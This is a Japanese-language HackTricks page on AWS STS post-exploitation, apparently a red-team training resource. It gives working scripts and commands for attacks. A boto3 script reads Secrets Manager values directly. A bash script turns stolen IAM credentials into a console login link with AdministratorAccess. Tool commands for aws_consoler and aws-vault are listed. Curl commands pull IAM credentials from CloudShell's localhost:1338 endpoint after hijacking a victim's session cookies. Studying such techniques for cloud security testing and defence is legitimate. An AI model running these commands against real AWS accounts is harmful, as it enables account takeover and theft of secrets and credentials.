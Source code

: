 # AWS - STS Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## STS

For more information:

{% content-ref url="../../aws-security/aws-services/aws-iam-enum.md" %}
[aws-iam-enum.md](../../aws-security/aws-services/aws-iam-enum.md)
{% endcontent-ref %}

#### 新しい方法 2024年12月: Webコンソールリンクの要件をバイパスし、HTTPS POSTリクエストでSecretsManager APIに直接アクセスしてシークレットを取得する（ログインリンクやWebコンソールは不要）

昨日、今後の試験（ARTE: ex16x41）のためにPRを提出しましたが、PRが表示されないようです。おそらく間違って提出したので、再度試してみましょう：
この方法を使用すると、URLを開いたり、ログインリンクをフォーマットしたり、CLI / Webコンソールを使用したりする必要がなくなります。
では、ここで何をしたのでしょうか？
AWS Secrets Manager APIと直接対話するスクリプトを書きました。非常にシンプルで明確です。
スクリプトを実行すると、AWS Secrets ManagerエンドポイントにHTTPS POSTリクエストが送信されます。
https://secretsmanager.<region>.amazonaws.com/
GetSecretValueリクエストはPOSTリクエストの一部として送信され、SigV4署名（boto3によって管理）で認証されます。
Secrets Managerはリクエストを処理します：
AWSは、ユーザーまたはロールに添付されたIAMポリシーに対してリクエストを検証します（シークレット値はWebコンソールとしてのみ表示できることがわかっています）。
許可されている場合、Secrets Managerサービスは応答に要求されたシークレット値を返します。
**POCデモ:**
シークレット値を取得するためのCLI AWSコマンドはアクセスが拒否されているため機能していません ->
ただし、画像では、シークレットIDを知っているだけでフラグを直接抽出する方法のシンプルさを見ることができます（これは、ユーザープロファイルでログインしたときに以前の段階で列挙しました）。
![image](https://github.com/user-attachments/assets/d05a1a96-04c0-4404-b4bd-dbfa93c6494b)
注: この方法は、ポリシーが許可するシナリオに応じて普遍的に使用できると思います（ただし、CLI経由で許可しないポリシーの制限をバイパスします）。
したがって、ポリシーが許可されている場合はいつでも使用できます（代替テストオプションとして）。
サイドノート: 同じAPIとの直接対話の方法を使用して適用できる他の技術について興味があります。特に、特権昇格やここでのポストエクスプロイトのプロセスに関してです。
**コード:**
'''
Python
import boto3

session = boto3.Session(profile_name="lab6")
client = session.client("secretsmanager", region_name="us-east-1")

# カスタムUser-Agentを設定
client.meta.events.register(
'before-call.secretsmanager.GetSecretValue',
lambda params, **kwargs: params['headers'].update({'User-Agent': 'my-custom-tool'})
)

# secretsmanager APIを介してシークレット値を直接取得
response = client.get_secret_value(SecretId="flag_sts_lab_3")
print(response['SecretString'])
'''

### IAMクレデンシャルからコンソールへ

IAMクレデンシャルを取得できた場合、次のツールを使用して**Webコンソールにアクセスすることに興味があるかもしれません**。\
ユーザー/ロールは**`sts:GetFederationToken`**の権限を持っている必要があります。

#### カスタムスクリプト

次のスクリプトは、デフォルトプロファイルとデフォルトのAWSロケーション（政府および中国以外）を使用して、Webコンソールにログインするために使用できる署名付きURLを提供します：

{% code overflow="wrap" %}
```bash
# Get federated creds (you must indicate a policy or they won't have any perms)
## Even if you don't have Admin access you can indicate that policy to make sure you get all your privileges
## Don't forget to use [--profile <prof_name>] in the first line if you need to
output=$(aws sts get-federation-token --name consoler --policy-arns arn=arn:aws:iam::aws:policy/AdministratorAccess)

if [ $? -ne 0 ]; then
echo "The command 'aws sts get-federation-token --name consoler' failed with exit status $status"
exit $status
fi

# Parse the output
session_id=$(echo $output | jq -r '.Credentials.AccessKeyId')
session_key=$(echo $output | jq -r '.Credentials.SecretAccessKey')
session_token=$(echo $output | jq -r '.Credentials.SessionToken')

# Construct the JSON credentials string
json_creds=$(echo -n "{\"sessionId\":\"$session_id\",\"sessionKey\":\"$session_key\",\"sessionToken\":\"$session_token\"}")

# Define the AWS federation endpoint
federation_endpoint="https://signin.aws.amazon.com/federation"

# Make the HTTP request to get the sign-in token
resp=$(curl -s "$federation_endpoint" \
--get \
--data-urlencode "Action=getSigninToken" \
--data-urlencode "SessionDuration=43200" \
--data-urlencode "Session=$json_creds"
)
signin_token=$(echo -n $resp | jq -r '.SigninToken' | tr -d '\n' | jq -sRr @uri)



# Give the URL to login
echo -n "https://signin.aws.amazon.com/federation?Action=login&Issuer=example.com&Destination=https%3A%2F%2Fconsole.aws.amazon.com%2F&SigninToken=$signin_token"
```
{% endcode %}

#### aws\_consoler

[https://github.com/NetSPI/aws\_consoler](https://github.com/NetSPI/aws\_consoler)を使用して**ウェブコンソールリンクを生成**できます。
```bash
cd /tmp
python3 -m venv env
source ./env/bin/activate
pip install aws-consoler
aws_consoler [params...] #This will generate a link to login into the console
```
{% hint style="warning" %}
IAMユーザーが `sts:GetFederationToken` 権限を持っていることを確認するか、引き受けるロールを提供してください。
{% endhint %}

#### aws-vault

[**aws-vault**](https://github.com/99designs/aws-vault) は、開発環境でAWS認証情報を安全に保存し、アクセスするためのツールです。
```bash
aws-vault list
aws-vault exec jonsmith -- aws s3 ls # Execute aws cli with jonsmith creds
aws-vault login jonsmith # Open a browser logged as jonsmith
```
{% hint style="info" %}
**aws-vault**を使用して**ブラウザコンソールセッション**を取得することもできます
{% endhint %}

#### コンソールからIAMクレデンシャルへ

[**この投稿で元々発見されました**](https://blog.christophetd.fr/retrieving-aws-security-credentials-from-the-aws-console/)。もしウェブコンソールへのアクセスを侵害することができた場合（クッキーを盗んで .aws フォルダーにアクセスできなかったかもしれません）、そのユーザーのためのIAMトークンクレデンシャルを**CloudShell**を通じて取得できます。

CloudShellは**ポート1338の未文書のエンドポイントを介してIAMクレデンシャルを公開します**。被害者のセッションクッキーをブラウザに読み込んだ後、CloudShellに移動し、IAMクレデンシャルを取得するために以下のコマンドを発行できます。
```bash
TOKEN=$(curl -X PUT localhost:1338/latest/api/token -H "X-aws-ec2-metadata-token-ttl-seconds: 60")
curl localhost:1338/latest/meta-data/container/security-credentials -H "X-aws-ec2-metadata-token: $TOKEN"
```
{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}
